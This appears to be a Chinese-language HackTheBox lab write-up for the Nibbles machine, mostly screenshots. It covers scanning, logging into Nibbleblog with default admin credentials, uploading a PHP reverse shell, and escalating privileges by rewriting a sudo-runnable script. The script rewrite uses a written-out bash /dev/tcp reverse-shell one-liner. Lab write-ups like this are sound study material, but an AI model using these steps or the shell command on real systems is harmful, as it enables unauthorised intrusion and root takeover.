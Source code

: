 ```yaml
---
UID: 20250614221705
aliases: 
tags:
  - 打靶
  - 靶场
  - hackthebox
source: 
cssclasses: 
created: 2025-06-14
---
```


![image.png](https://s2.loli.net/2025/06/14/mT8KhDLfQ9REZlx.png)

## 扫描端口
![image.png](https://s2.loli.net/2025/06/14/IbxPFeKqh9sSTgX.png)

发现有个 22 端口和 80 端口

## 80 端口信息收集
打开页面一开始，是使用 dirsearch 和 feroxbuster 扫描。但感觉不对劲，没有出货

只能在主页面找找，看一下源码。找到路径了
![image.png](https://s2.loli.net/2025/06/14/vIfHAyrXZB736ex.png)

![image.png](https://s2.loli.net/2025/06/14/6LwTt3mpxarqflg.png)

查看 readme 知道版本号

![image.png](https://s2.loli.net/2025/06/14/RxQpNoG568rqtyn.png)

## 漏洞利用
搜索 nibbleblog 4.0.3 找到一个可以利用的漏洞。
![image.png](https://s2.loli.net/2025/06/14/XJ6o7vwLy1Az35C.png)

但需要找到账户密码，只能继续寻找，又发现一个

![image.png](https://s2.loli.net/2025/06/14/euDX6WE9G25Qdip.png)

苦苦寻找找到一个文件里面有说账户名是 admin
![image.png](https://s2.loli.net/2025/06/14/3RnhfdcXzGOox5T.png)


用 hydra 爆破一下密码。试了很多遍都没有用。只能想办法利用 my images 上传图片的漏洞

但貌似也要登录进去。

看了 wp，说是用了默认密码 admin/nibbles

![image.png](https://s2.loli.net/2025/06/14/Y3lqjwiodIKQCk1.png)

在 my_image 上传一个 php 反弹 shell 文件

![image.png](https://s2.loli.net/2025/06/15/YqhTVLe2yEoCRIF.png)

在这个目录中会变成 image. jpg，点一下就能反弹成功

![image.png](https://s2.loli.net/2025/06/15/oqwAOnMb3SKVhGi.png)


![image.png](https://s2.loli.net/2025/06/15/63KHiwoY4rFCm5x.png)

## 提权
![image.png](https://s2.loli.net/2025/06/15/6pbiofWB5SkNcOG.png)

找到第一个 flag

![image.png](https://s2.loli.net/2025/06/15/bSBLPKh3voqzrG8.png)

发现这个脚本可以不用密码执行 root 权限

修改一下这个脚本，改成反弹 shell

```
魔改
cat > monitor.sh <<EOF
#!/bin/bash
0<&196;exec 196<>/dev/tcp/10.10.16.2/4242; sh <&196 >&196 2>&196
EOF
# 
```

![image.png](https://s2.loli.net/2025/06/15/rRxeflTiEJq8dAp.png)

![image.png](https://s2.loli.net/2025/06/15/blyju8h2LPFO7W4.png)

sudo 权限运行脚本，即可获得反弹 shell

![image.png](https://s2.loli.net/2025/06/15/uQtbUaoi75ZkMfx.png)
